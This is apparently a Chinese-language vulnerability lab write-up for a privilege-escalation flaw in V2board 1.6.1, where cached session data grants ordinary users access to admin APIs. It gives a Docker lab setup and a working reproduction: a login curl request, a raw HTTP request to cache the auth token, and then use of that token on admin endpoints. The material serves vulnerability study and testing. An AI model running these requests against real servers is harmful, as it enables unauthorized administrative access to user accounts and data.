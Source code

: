 # V2board 1.6.1 提权漏洞

V2board是一个多用户代理工具管理面板。在其1.6.1版本中，引入了对于用户Session的缓存机制，服务器会将用户的认证信息储存在Redis缓存中。

但由于读取缓存时没有校验该用户是普通用户还是管理员，导致普通用户的认证信息即可访问管理员接口，造成提权漏洞。

参考链接：

- <https://github.com/v2board/v2board/commit/5976bcc65a61f7942ed4074b9274236d9d55d5f0>

## 漏洞环境

执行如下命令启动一个V2board 1.6.1版本服务器：

```
docker-compose up -d
```

服务启动后，访问`http://localhost:8080`即可查看到其登录页面。

## 漏洞复现

复现该漏洞，必须注册或找到一个普通用户账号。注册完成后，我们发送如下请求进行登录（将其中账号密码替换成你注册时使用的信息）：

```
curl -i -s -k -XPOST --data-binary "email=example%40example.com&password=a123123123" http://localhost:8080/api/v1/passport/auth/login
```

服务器会返回当前用户的认证信息“auth_data”：

![](1.png)

拷贝这个认证信息，并替换到如下数据包的`Authorization`头中，发送：

```
GET /api/v1/user/info HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Authorization: ZXhhbXBsZUBleGFtcGxlLmNvbTokMnkkMTAkMVJpUFplR2RnZlFPSVRyWEM4dW0udW5QZVZNTGs3RlFFbkFVVnBwbEhmTlMyczdQaEpTa3E=
Cache-Control: max-age=0


```

![](2.png)

这一步的目的是让服务器将我们的Authorization头写入缓存中。

最后，只需要带上这个Authorization头，即可使用所有管理员API了。例如`http://your-ip:8080/api/v1/admin/user/fetch`

![](3.png)
